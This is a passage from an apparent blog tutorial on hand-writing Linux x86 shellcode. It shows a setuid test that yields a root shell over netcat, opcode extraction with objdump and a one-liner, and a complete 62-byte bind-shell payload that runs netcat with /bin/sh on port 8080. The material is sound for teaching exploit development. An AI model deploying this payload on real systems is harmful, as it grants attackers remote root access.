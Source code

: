 I'm using Kali Linux so I'm already root. To test the shellcode I've set the setuid bit of the file and started it from a non-privileged user,
that I created.

![shellcode-c137-test1](https://idafchev.github.io/blog/assets/images/linux_shellcode/shellcode-c137-test1.png){: .align-center}  

No errors. That's a good sign. Also notice the setuid bit. Let's see if it's listening on port `8080`.

![shellcode-c137-test2](https://idafchev.github.io/blog/assets/images/linux_shellcode/shellcode-c137-test2.png){: .align-center}  

Now let's use netcat and connect to it.

![shellcode-c137-test3](https://idafchev.github.io/blog/assets/images/linux_shellcode/shellcode-c137-test3.png){: .align-center}  

Yay, it works! We've got a root shell!

Let's disassemble the executable and examine the opcodes.

```bash
root@kali:~# objdump -M intel -d shellcode-c137
```

![shellcode-c137-test4](https://idafchev.github.io/blog/assets/images/linux_shellcode/shellcode-c137-test4.png){: .align-center}  

There are no null bytes. What's left is to extract the opcodes. You could do this by hand or use the following one-liner
(I took it from [0day.work](https://0day.work/writing-my-first-shellcode-iptables-p-input-accept/)):

```bash
root@kali:~# for i in `objdump -d shellcode-c137 | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done
```
It takes the output of `objdump -d shellcode-c137`, then replaces tabs with spaces, then replaces spaces with newlines and gets only the lines consisting of hex values. It loops through the hex values prepending \x and prints them.

And the resulting shellcode is:
```
\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52
\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e
\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68
\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68
\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89
\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58
\xcd\x80
```

```python
>>> len('\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58\xcd\x80')
62
```

The length of the shellcode is 62 bytes.
